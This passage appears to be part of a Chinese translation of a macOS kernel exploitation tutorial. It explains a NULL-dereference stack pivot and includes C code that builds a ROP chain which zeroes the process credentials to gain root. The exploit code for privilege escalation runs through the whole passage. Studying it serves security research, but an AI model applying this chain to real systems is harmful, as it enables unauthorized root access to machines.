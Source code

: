 我使用 NULL 解引用来实现堆栈控制的方法是，使用单个的 gadget 来交换 RSP 和 RAX 的值。如果 RAX 中的值能被控制的话，game’s over！在本例中，RAX 将会始终为0（它将会存储我们构造的 OSData 数据的下一个 8 字节，因此一直是0），所以我们可以在0处放置我们的小转移链，然后将0x20处设置为 pivot。当 RIP 得到被设置到0X20处的地址时，将会执行交换的这个函数，将 RSP 设置为0，然后返回，pop 链中的第一个地址到 RIP，并开始执行这个链。

需要注意的是，这个转移链的目的是什么（mapped at 0）。实际上这会重新将 RSP设置为主链。这样做是因为在0和0X20之间我们没有足够多的空间（只有32 字节，也就是说4个地址），完全不够存储我们的权限提升的链。

<table><tbody><tr><td class="gutter"><pre><div class="line">1</div></pre></td><td class="code"><pre><div class="line">*(<span class="keyword">volatile</span> <span class="keyword">uint64_t</span> *)(<span class="number">0x20</span>) = (<span class="keyword">volatile</span> <span class="keyword">uint64_t</span>)ROP_XCHG_ESP_EAX(<span class="built_in">map</span>); <span class="comment">// stack pivot</span></div></pre></td></tr></tbody></table>

下面是转移的代码，仅仅是读取栈上的值，然后将它 pop 到 RSP 中（之所以我们可以这样做，是因为我们控制了RSP）。

<table><tbody><tr><td class="gutter"><pre><div class="line">1</div><div class="line">2</div><div class="line">3</div></pre></td><td class="code"><pre><div class="line"><span class="keyword">uint64_t</span> *transfer = (<span class="keyword">uint64_t</span> *)<span class="number">0x0</span>;</div><div class="line">transfer[<span class="number">0</span>] = ROP_POP_RSP(<span class="built_in">map</span>);</div><div class="line">transfer[<span class="number">1</span>] = (<span class="keyword">uint64_t</span>)chain-&gt;chain;</div></pre></td></tr></tbody></table>

#### The main chain

马上是这个利用程序的精髓所在了。这部分非常重要：执行内核代码，来提升我们的权限。我们需要先找到我们的进程在内存中的 credentials 结构，然后置0。通过将它置0，我们就可以提升我们的进程权限啦（root 的组 ID 均为0）。

我们所做的实际上跟 setuid\(0\) 非常相似，但是我们不能直接用这个函数，因为它有权限检测。`thread_exception_return` 函数用于离开内核空间而不造成崩溃，它通常被用于从内核 traps 中返回。

RAX寄存器保存着前一个函数的返回值，ROP\_RAX\_TO\_ARG1 宏用来将 RAX 寄存器和 RDI（下一个函数的第一个参数）交换。这样就会将上一个函数的返回值作为我们 ROP 链中下一个函数的第一个参数。

<table><tbody><tr><td class="gutter"><pre><div class="line">1</div><div class="line">2</div><div class="line">3</div><div class="line">4</div><div class="line">5</div><div class="line">6</div><div class="line">7</div><div class="line">8</div><div class="line">9</div><div class="line">10</div><div class="line">11</div><div class="line">12</div><div class="line">13</div><div class="line">14</div><div class="line">15</div><div class="line">16</div><div class="line">17</div><div class="line">18</div><div class="line">19</div><div class="line">20</div><div class="line">21</div><div class="line">22</div><div class="line">23</div><div class="line">24</div><div class="line">25</div><div class="line">26</div><div class="line">27</div></pre></td><td class="code"><pre><div class="line"><span class="comment">/*</span></div><div class="line">*   chain prototype:</div><div class="line">*   </div><div class="line">*   proc = current_proc();</div><div class="line">*   ucred = proc_ucred(proc);</div><div class="line">*   posix_cred = posix_cred_get(ucred);</div><div class="line">*</div><div class="line">*   bzero(posix_cred, (sizeof(int) * 3));</div><div class="line">*</div><div class="line">*   thread_exception_return();</div><div class="line">*/</div><div class="line"></div><div class="line"><span class="keyword">rop_chain_t</span> *chain = <span class="built_in">calloc</span>(<span class="number">1</span>, <span class="keyword">sizeof</span>(<span class="keyword">rop_chain_t</span>));</div><div class="line"></div><div class="line">PUSH_GADGET(chain) = SLIDE_POINTER(find_symbol_address(<span class="built_in">map</span>, <span class="string">"_current_proc"</span>));</div><div class="line"></div><div class="line">PUSH_GADGET(chain) = ROP_RAX_TO_ARG1(<span class="built_in">map</span>, chain);</div><div class="line">PUSH_GADGET(chain) = SLIDE_POINTER(find_symbol_address(<span class="built_in">map</span>, <span class="string">"_proc_ucred"</span>));</div><div class="line"></div><div class="line">PUSH_GADGET(chain) = ROP_RAX_TO_ARG1(<span class="built_in">map</span>, chain);</div><div class="line">PUSH_GADGET(chain) = SLIDE_POINTER(find_symbol_address(<span class="built_in">map</span>, <span class="string">"_posix_cred_get"</span>));</div><div class="line"></div><div class="line">PUSH_GADGET(chain) = ROP_RAX_TO_ARG1(<span class="built_in">map</span>, chain);</div><div class="line">PUSH_GADGET(chain) = ROP_ARG2(chain, <span class="built_in">map</span>, (<span class="keyword">sizeof</span>(<span class="keyword">int</span>) * <span class="number">3</span>));</div><div class="line">PUSH_GADGET(chain) = SLIDE_POINTER(find_symbol_address(<span class="built_in">map</span>, <span class="string">"_bzero"</span>));</div><div class="line"></div><div class="line">PUSH_GADGET(chain) = SLIDE_POINTER(find_symbol_address(<span class="built_in">map</span>, <span class="string">"_thread_exception_return"</span>));</div></pre></td></tr></tbody></table>


[jndok:~jndok(Debug)]: sudo zprint | grep kalloc